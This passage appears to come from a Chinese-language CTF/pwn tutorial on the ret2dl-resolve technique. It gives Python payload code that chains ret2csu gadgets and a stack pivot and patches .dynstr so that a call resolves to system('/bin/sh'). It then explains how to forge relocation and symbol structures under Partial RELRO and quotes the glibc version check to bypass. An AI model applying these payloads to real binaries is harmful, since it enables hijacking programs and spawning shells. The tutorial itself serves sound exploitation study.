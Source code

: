 64 位下同理：

```python
def csu(func, rdi, rsi, rdx):
  payload = (
		p64(0x40066a) + p64(0) + p64(1) + p64(func) + p64(rdx) + p64(rsi) + p64(rdi) +
		p64(0x400650) + 56 * '\x00'
  )
  return payload

def memcpy(dst, src, length):
	return csu(memcpy_got, dst, src, length)

payload = (
	((
		'A' * 14 + # padding
		p64(buf + 1024 - 8) + # set rbp=buf+1024-8
		p64(leave_ret) # stack pivot ; set rsp=buf+1024
	).ljust(1024, '\x00') + # buf+1024
		memcpy(dynstr_addr + 8, buf + 2048, 8) +
		p64(pop_rdi_ret) +
		p64(buf + 2048 + 16) +
		p64(gmon_start_plt)
	).ljust(2048, '\x00') + # buf+2048
	p64(buf + 2048 + 8 - st_name) + # set strtab=&"system\x00"
	'system\x00\x00' +
	'/bin/sh\x00'
)
```

## Partial RELRO

构造一个假的 `Elf32_Rel`（`Elf64_Rela`），使 `r_offset` 在可写位置，`r_info` 使 `&.dynsym[r_info>>8]`（64 位下是 `&.dynsym[r_info>>32]`）可控。然后传一个特别大的 `reloc_arg` 进去，使 `.rel.plt+reloc_arg` 落在假的 `Elf32_Rel`（`Elf64_Rela`）上。接着构造一个假的 `Elf32_Sym`（`Elf64_Sym`），其中构造 `st_name` 使 `.dynstr+st_name` 可控（放上 `"system\x00"`）

如果可控的内存地址和 Section 相反或距离太远而无法使用（基本上 64 位会有这个问题），需要让 `reloc_arg`、`r_info`、`st_name` 的参数可以放进这块内存。其中 `.gnu.version[r_info>>8]` 要为 0，或者把 `l_info[VERSYMIDX (DT_VERSYM)]` 中的内容清空。由于我们构造的伪 Symbol 中的 `r_info` 过大，使得 `vernum[ELFW(R_SYM) (reloc->r_info)]` 读取出错，如果 `l->l_info[VERSYMIDX (DT_VERSYM)]` 的值为 NULL 就不会出错，如下：

```cpp
      if (l->l_info[VERSYMIDX (DT_VERSYM)] != NULL)
        {
          const ElfW(Half) *vernum =
            (const void *) D_PTR (l, l_info[VERSYMIDX (DT_VERSYM)]);
          ElfW(Half) ndx = vernum[ELFW(R_SYM) (reloc->r_info)] & 0x7fff;
          version = &l->l_versions[ndx];
          if (version->hash == 0)
            version = NULL;
        }
```
